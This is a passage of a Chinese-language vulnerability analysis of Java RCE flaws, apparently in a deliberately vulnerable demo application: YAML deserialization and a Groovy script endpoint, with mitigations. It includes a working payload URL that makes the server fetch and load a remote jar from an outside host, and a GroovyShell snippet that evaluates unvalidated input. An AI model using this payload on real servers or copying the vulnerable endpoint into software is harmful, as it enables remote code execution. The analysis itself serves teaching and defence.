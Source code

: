 **2.漏洞分析：**  
- Yaml该漏洞存在于使用未经适当验证或清理的类的YAML 内容的反序列化过程中。  
  
- 如果 YAML 内容包含恶意负载，反序列化不受信任的数据可能会导致远程执行代码。  
  
**3.开发：**  
- 攻击者可以制作恶意 YAML 有效负载，其中包含在服务器上执行任意代码的指令。  
  
- 示例中提供的有效负载通过注入 YAML 有效负载来利用该漏洞，该负载通过反序列化触发任意 Java 代码的执行。  
  
**4.有效负载分析：**  
- 有效负载演示了使用 YAML 反序列化来执行任意 Java 代码的攻击向量。http://localhost:8080/rce/vuln/yarm?content=!!javax.script.ScriptEngineManager%20[!!java.net.URLClassLoader%20[[!!java.net.URL%20[%22http://test.joychou.org:8086/yaml-payload.jar%22]]]]  
  
- 有效负载指示  
Yaml解析器反序列化 Java 对象链，最终导致通过 URLClassLoader 执行任意代码。  
  
**5.缓解措施：**  
- 避免反序列化不受信任的数据或使用安全的序列化机制。  
  
- 实施输入验证和过滤，以确保仅处理受信任的 YAML 内容。  
  
- 考虑使用安全反序列化库或应用安全控制，例如内容类型验证。  
  
- 监视并记录可疑活动的反序列化尝试。  
  
**6.有效负载利用示例：**  
  
攻击者可以制作恶意 YAML 有效负载：  
- 从远程位置加载并执行任意 Java 代码。  
  
- 在服务器上执行文件系统访问、网络通信或命令执行等操作。  
  
- 利用Java运行环境中的漏洞获得未经授权的访问或提升权限。  
  
**四、Groovy**  
  
提供的 Java 代码片段定义了一个  
/groovy接受 Groovy 脚本内容作为输入的 REST 端点。然后使用该类执行 Groovy 脚本GroovyShell，该类允许动态执行   
GroovyShell 代码。但是，由于缺乏输入验证或清理，此代码容易受到远程代码执行 (RCE) 的攻击。  
```
@GetMapping("groovy")
    public void groovyshell(String content) {
        GroovyShell groovyShell = new GroovyShell();
        groovyShell.evaluate(content);
    }

```  
  
以下是对该代码及其利用方式的详细技术分析：  
  
**1.终点分析：**  
- 该端点  
/groovy是需要包含 Groovy 脚本代码的  
GET参数的端点。  
content  
  
**2.漏洞分析：**  
- 该漏洞存在于用户提供的 Groovy 脚本内容未经适当验证或清理的动态执行中。  
  